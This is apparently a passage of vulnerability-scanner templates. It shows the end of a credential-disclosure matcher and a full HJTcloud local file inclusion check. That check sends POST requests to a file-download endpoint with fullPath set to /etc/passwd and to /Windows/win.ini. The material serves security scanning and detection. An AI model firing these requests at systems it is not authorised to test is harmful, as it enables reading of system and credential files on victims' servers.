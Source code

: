 **Type - word**

- words
  1. \<rootManagerName>
  2. \<rootManagerPassword>
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# HJTcloud - Local File Inclusion

## Description

- HJTcloud is vulnerable to local file inclusion.
- severity - high
- tags - hjtcloud,lfi

## Requests

### Step - 1

```
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: {{Hostname}}
Accept: application/json, text/plain, */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

fullPath=/etc/passwd

```

### Step - 2

```
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: {{Hostname}}
Accept: application/json, text/plain, */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

fullPath=/Windows/win.ini

```

### Matchers

**Type - regex**
